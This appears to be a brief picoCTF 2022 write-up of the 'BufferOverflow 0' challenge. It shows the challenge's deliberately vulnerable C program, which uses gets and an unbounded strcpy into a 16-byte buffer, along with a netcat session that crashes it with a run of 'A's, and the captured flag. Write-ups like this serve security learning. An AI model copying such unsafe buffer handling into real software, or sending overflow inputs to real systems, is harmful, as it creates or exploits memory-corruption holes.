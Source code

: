 # picoCTF 2022

> Arvind Shima | March 16,2022

## Overview

| Tables | Description |
| ------ | ----------- |
| Category | Binary Exploitation |
| Challenge Name | BufferOverflow 0 |
| Points | 100 |

## Description

Smash the stack. Let's start off simple, can you overflow the correct buffer?

#### Hints

- How can you trigger the flag to print?
- If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
- Run man gets and read the BUGS section. How many characters can the program really read?

## Approach

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}

```

As mentioned in description, Put the values above the bufferspace. It'll overflows the flag.

```bash
nc saturn.picoctf.net 53935

Input: AAAAAAAAAAAAAAAAAAAA
```

## Flag

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}
```
